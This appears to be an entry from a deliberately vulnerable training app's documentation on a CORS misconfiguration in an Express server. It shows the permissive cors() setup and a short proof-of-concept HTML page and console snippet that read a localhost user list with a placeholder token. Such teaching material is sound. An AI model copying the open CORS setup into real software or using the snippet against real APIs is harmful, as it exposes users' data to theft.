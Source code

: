 # Vulnerability 11 – CORS Misconfiguration

## Simple workaround


### Vulnerable code Snippet

**File:** `server.js`

```js
const cors = require('cors');
app.use(cors());
```

- Using `cors()` without configuration **allows all origins** to access your API.
- The backend responds with: `Access-Control-Allow-Origin: *`

- This means **any external website**, including a malicious one, can make requests to your API.
- If an attacker obtains a user's JWT, they can easily **exfiltrate sensitive data** from the API using a forged frontend.

### How to exploit

- create an example file: cors-exploit.html

```html
<!DOCTYPE html>
<html>
<body>
  <h1>CORS Attack</h1>
  <script>
    fetch("http://localhost:3000/api/users/all", {
      headers: {
        "Authorization": "Bearer YOUR_VALID_TOKEN"
      }
    })
    .then(res => res.text())
    .then(data => alert("Stolen data:\n" + data));
  </script>
</body>
</html>

```

Or via the browser console:

```js
fetch('http://localhost:3000/api/users/all', {
  headers: {
    Authorization: 'Bearer YOUR_TOKEN'
  }
}).then(res => res.text()).then(console.log).catch(console.error);

```
